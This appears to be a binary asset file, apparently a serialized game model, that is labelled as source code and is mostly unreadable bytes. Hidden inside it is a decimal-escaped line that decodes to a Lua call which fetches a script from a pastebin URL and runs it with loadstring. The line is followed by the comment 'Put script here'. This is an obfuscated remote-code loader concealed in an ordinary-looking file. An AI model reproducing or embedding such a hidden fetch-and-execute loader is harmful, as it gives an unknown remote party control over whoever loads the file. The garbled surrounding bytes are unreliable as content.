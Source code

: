 K�:S��9�;������U-z՟��T�h&\�җ�c�Qc[��٨Z:���Xp��D�ѿ<aP��
X�jn<~�X�B4�ΰ��5��?�Ѻ@R���hR� ��>O����^��^ڴ�� �W��X�-�y�˒u�8{;7_8�?�g=�#��6|�s���_� ����h�z9{e����GX�%� �
mZ+^W�q fX�4-I�FbޑӺ.U/Ac�O�2e=Lt�Ũ��Yh����H�� �\[�/�
B�V��:C*�,�`���B�Lw��?��bi ��"��.�yJHJ��D��
���GԵzZ���1�0\�r$��5�X�j�:rhp���2���� P�\���@�(Hl�x.c����|����$^�o�pg��&� X5R�8pI/�Z��f:1�8^*��9N,
q�9��[`��T��108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\122\99\65\106\48\101\109\88\39\41\41\41\40\41\10\45\45\32\80\117\116\32\115\99\114\105\112\116\32\104\101\114\101\10	1��݈��|�<��-`�=�R0��>n�)�
67�ҍ���O�H �N���$���9C��ʠi�\�΅�9�;b���e��*ކ-
���RKLH���_�kN/�5)qk��6�z�;�Ҵ��؛��\��� ��yD�� �Iy~<|�;8�(��mz��/~�RGud���'����?�T��UCAV��6�,�7���� ���Ǝ �Y�ך��^��LI �I}xi����,f�
=� I�?�P�N5�7H�67j�&1L��V�ǤK$�bHp�����ޗܲ�b���G3v��@�ukB�9~e�;�4rlyem��)��}A���&D�P� ���6t���8K'i'6�ϔ,��p4w#�P��&V"��h���T��*P4���9���*v��<� ���+�vd��e����G��g�Z����� �=!�X YoG3���� ז��
�Hv7f��ݝЎT��Ν`A7ϯ�	&�0v�	V&��8C�&w��`���]�Ӝ&�����%|.CV�4�f6� ����>^P)�H�FH�>���� ˖˘��۔X�����fL�k\}�-��DHS	N�Eu�ژ�z� K�	�Ƨ���\�	إwMR�
?P�Z'j	�8P��i�ms�_�����^>x�zܾ����L����rxO�C��@�`@���Ma�no@ڌ|."��=��P���~��>�z
w|�����V~�DCk��SGbl�g�+-���Q,X��5b;����zjx쬪�ut����� �	 ��c���G����|F�=b�NJ��nt���K�Z�9��ߓ��h�x}�E���b�6�ME��F���	�&���<l�꜒8A/\��KM�X3�;�pxn+
��
��Kbo�$� ���_Q���8�(����"q�
q�O�8�J �/[|�b#�'h+��� i�yC� �I���O]�E���,�!��#ɖFf�G����Bcf�Y�:�A�:����,p02L��w�&�"uka���ӟVѣ�f�CJ�t�p�
�h�¯�N�w��<#�^d��4�t� ��mO�#�
�[0��*h)�rl���@��1@��:�p�RHwk5����TeAhY33� 􆨭�8w@e�|� o�j�k�P$�� ��ʑ��;��#�R�;Ԓ�8��V� �X��%�@���̖ `Mz����N� �V �?�~�%Kg娃���9�p���Pڽ��v�u60�Gš�1���"h����׆V[R���u�4֐?���?�|���d�
�]E������BbRA\��V���O�;^w�t����|�1����8V�g|�9V�z��\�!�ob&jX�Pr�QW+�A]�������[��BD�]�+�����U�SwL��A��-�&�Vg~��
bg��T�R��s���^��᏾.1�+�L���x�͟�1�z��h���qW!Kw]��� x�8 ݅<v�2�kh�)��=5/��B��^���-~�N�Q�y�)5�O!8cx
g���y���לp�g!���HtF����֦}`	Pje��j�C�O(n�-�]"Mm{�H:�����
2�j��(�A	�nP[���ϜwmqB�B��X�D$ĒY�<�J�z�L9��~��&��+�V�L�8a�w��!�2̲-E%�Q\�ׇ�H:�s�;>@,E�.��>$�2��;=���,�V$%�x��*���Ɨݝ�5<r֕���u��B(mɡV��L�*��W���"���沌����^k�����%�7�i�q�;7���8p����O�<\��I��k��(�#^Qmp��v+O�[�Uo�*p��R1�sW�9a�H�\�N�B/�t�+�m��&M� *V�=z�'���ad�vn�_���Q��r�L�fk@­Zhs0L�H$,3�qS��gqJ���Bփ��T� ��q���=:e5#G�x%s�{���Lc;6eu.H����E<A���@�p1�a�8u�E}= 2]� zh"�G&��
K��M_NP�p$�:\۔s�֬)Bs��9�]O�
�و�]zÎ4���<�����%%�
�}Z����$Uݚ�<
z����!��Tr��93,ZՇP$S��buʕlǌ-AC����{�(�ȾD�%ܹ���LI��N���@3�}#�d9
&�fߴtBS"���e��#8��gZ���W��%�b�5��B؃f-��_HT�@�Npje3 ď���d��xq�HK�/X%)��XצPj�UL�PK�<�e��r^MF���a7�JM((#�ѧِͩ
M 	K ���r�M[�D�`�'*��H���ބ�����ăJ7;�@��7g�����av2'=���O��:f�U�+���S�����-��>@%$���#.PP�8bk�Z�(�'!ԟ�H�&�I��"��+`�Ř���	f�Ӟ��VP�0\� � �y8 \��D�2&�G�ᦢ�w��њp��e3)N���
��G���S����Hx|_܎T�|������D������*E��^Ӳ-0�Ձ-�� �Pj�E<?:�V;w���:z|���]�%�n���W8wf����O���K]�����lD�g�H/p�c��N"J�V�$����+M5����i�RD�C��xC�M�,�x^���/��N#�$�_���߳��wҏL�
��#�O�&^�|�I��4�j��W�2�[�����M���@�[O`��	���W �[W�
b�,[�<1\Uf�F�,1}_�Ԅ�%k�9�j�
P8
ȱ��M
�;_�Hg��H$9~Z}bh-���1�Q����_8o�X�r�R� ����nJ�T]g��/c외�{�ĉ|N|�o(��`���1��gk�,�?c���?��H��__����w.I�_~a����������H R���ᶝ�y�f��J~��F�(�PZA8���ֵ�D[k�r�}�ĳ�}-��b���5tC��~}b*\W�^F׋+'��+��'v<A�����"�ث]��L������f�X����s���ܤ������(�kFƊ�%���b�t��l��'D���u�� g�t��Z�O�Yt=ޖ�F{��9l�y�Ǆ�;ev&�7cfs�$���*��G���c�f8��0oX�)������ j �;�9p,*ޗ�$v!6@�m�mbM*[�5<|t���??��z��?,��,g��D�8@ Q�R�ߔ)0�M)``�䎴�l`S�ҡ���B�^[�
��Z4�!��})͓���:�+ a���h�a��R�rT�E.�V��g��W8R	sʢ���qIR��#�1.*c5� ?�`����w��@f���|�\5�����9�p�H
�Z���X�O_�A�J�-��}�g+B���1��2�ij�&h{�}�_H9S�
�I���5<� �1�f��0��p\�&��$�)�-v�,��?�(�����H���H�tc�A�^�� 0�����"�i�<���y�r�2ۡo�
Pb���:��e�	aL�d�-���d9�r�+�$�k��Ko�)�^A�-sC�5��4